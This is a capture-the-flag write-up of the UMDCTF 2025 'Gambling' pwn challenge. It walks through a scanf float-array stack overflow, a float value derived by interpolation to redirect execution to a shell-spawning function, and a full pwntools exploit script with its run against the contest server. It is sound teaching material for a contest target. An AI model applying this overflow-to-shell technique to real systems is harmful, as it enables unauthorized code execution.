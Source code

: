 ```yaml
---
title: "Gambling 🎲 – Stack Overflow Exploit via Floats (UMDCTF 2025)"
tags: [CTF, binary exploitation, float overflow, pwn]
---
```


# UMDCTF 2025 - Gambling Pwn Challenge Writeup 🎲

![CTF](https://img.shields.io/badge/CTF-UMDCTF_2025-blue)
![Challenge](https://img.shields.io/badge/Challenge-Gambling-informational)
![Category](https://img.shields.io/badge/Category-Pwn-red)
![Difficulty](https://img.shields.io/badge/difficulty-Easy-blue)

## Table of Contents 📚
- [Challenge Overview](#challenge-overview-) 📄
- [Source Code Analysis](#source-code-analysis-) 🔍
- [Exploitation Plan](#exploitation-plan-) 🛠️
- [Final Exploit Payload](#final-exploit-payload-) 🎯
- [Exploit Script](#exploit-script-) 🧠
- [Result](#result-) 🏆
- [Final Notes](#final-notes-) ✨

## Challenge Overview 📄

- **Binary:** gambling (i386 ELF)

**Protections:**
```
RELRO: Partial
Stack Canary: None
NX: Enabled
PIE: No
FORTIFY: Enabled
Stripped: No
```

## Source Code Analysis 🔍

```c
float rand_float() {
  return (float)rand() / RAND_MAX;
}

void print_money() {
    system("/bin/sh");
}

void gamble() {
    float f[4];
    float target = rand_float();
    printf("Enter your lucky numbers: ");
    scanf(" %lf %lf %lf %lf %lf %lf %lf", f, f+1, f+2, f+3, f+4, f+5, f+6);
    if (f[0] == target || f[1] == target || f[2] == target || f[3] == target || f[4] == target || f[5] == target || f[6] == target) {
        printf("You win!\n");
    } else {
        printf("Aww dang it!\n");
    }
}

int main(void) {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    srand(420);
    while (1) {
        gamble();
        getc(stdin);
        printf("Try again? ");
        char buf[20];
        fgets(buf, 20, stdin);
        if (strcmp(buf, "no.\n") == 0) {
            break;
        }
    }
}
```

## Exploitation Plan 🛠️

Since PIE is disabled (addresses are fixed) and there's no canary, the strategy is straightforward:

1. **Overflow the stack** until we control EIP.
2. **Overwrite EIP** with the address of `print_money()`.
3. **Trigger the shell**.

However, the overflow happens through `scanf("%lf")`, meaning we must carefully craft our input as **doubles (floating-point numbers)**.

Directly writing a pointer as a float is tricky because floating-point encoding is complicated (IEEE-754 standard).

### First Attempts: Rough Bruteforce

Due to the non-linear and complex behavior of IEEE-754 encoding combined with ASCII parsing via scanf, deriving the exact floating-point representation mathematically was impractical.

A local empirical interpolation was the fastest and most efficient approach.

Initial experiments showed:

- Sending larger float numbers would make EIP land somewhere around `0x8049400`.
- Decreasing the float values would move EIP upwards.

It was observed that:

| Input Float | Resulting EIP |
|:---|:---|
| `0.000...004869` | `0x8049400` |
| `0.000...00487`  | `0x8049515` |

Thus, the correct value to land on `0x80492c0` (address of `print_money`) was **between** those two inputs.

A direct binary crafting of a floating-point value containing the desired address would have been theoretically possible, but extremely impractical due to the complexity of IEEE-754 encoding and memory layout uncertainties.

### Precise Calculation

Instead of bruteforcing, I decided to calculate it properly.

Given:

```python
float1 = float('0.000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000004869')
float2 = float('0.00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000487')

eip1 = 0x8049400
eip2 = 0x8049515
eip_target = 0x80492c0
```

We calculate:

```python
delta_eip = eip2 - eip1
delta_float = float2 - float1

ratio = delta_float / delta_eip

offset_eip = eip_target - eip1
offset_float = offset_eip * ratio

float_target = float1 + offset_float

print(f"[+] Exact float needed to reach 0x80492c0 : {float_target:.400f}")
```

Thus, we derive the precise float we need.

## Final Exploit Payload 🎯

The final value to send as the 7th number was:

```plaintext
0.0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000048678447653429606926762156265085299415604106647379534502196788585758286387045593904549590297537598720611109479754048472644682294918
```

Thus, the final payload looked like:

```plaintext
0 0 0 0 0 0 0.00000...(above float)
```

## Exploit Script 🧠

```python
from pwn import *
import struct
import argparse

context.binary = './gambling'
context.arch = 'i386'
context.log_level = 'warn'

# Argument parsing
parser = argparse.ArgumentParser()
parser.add_argument('--host', type=str, help='Remote host')
parser.add_argument('--port', type=int, help='Remote port')
args = parser.parse_args()

# Exact float string to send
exact_float_str = "0.0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000048678447653429606926762156265085299415604106647379534502196788585758286387045593904549590297537598720611109479754048472644682294918"

print("[+] Starting exploit...")

def start_process():
    if args.host and args.port:
        return remote(args.host, args.port)
    else:
        return process('./gambling')

if __name__ == "__main__":
    p = start_process()
    p.recvuntil(b'Enter your lucky numbers: ')

    # Build the payload with the exact float string as the 7th number
    payload = "0 0 0 0 0 0 " + exact_float_str
    print(f"[+] Sending payload: {payload}")
    p.sendline(payload.encode())

    p.sendline(b'id')
    print(p.recvline())
    result = p.recvline()
    if b'uid' in result:
        print("SUCCESS")
        print(result)
    p.close()
```

## Result 🏆

```bash
└──╼ $python3 exp.py --host challs.umdctf.io --port 31005
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    FORTIFY:    Enabled
    Stripped:   No
[+] Starting exploit...
[+] Sending payload: 0 0 0 0 0 0 0.0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000048678447653429606926762156265085299415604106647379534502196788585758286387045593904549590297537598720611109479754048472644682294918
b'Aww dang it!\n'
b'UMDCTF{99_percent_of_pwners_quit_before_they_get_a_shell_congrats_on_being_the_1_percent}\n'
```

## Final Notes ✨

- Classic stack overflow by mismatch between buffer type and scanf format.
- Critical to master floating point to memory corruption tricks in CTF pwn tasks.

🔙 [Back to UMDCTF 2025 Writeups](../../)
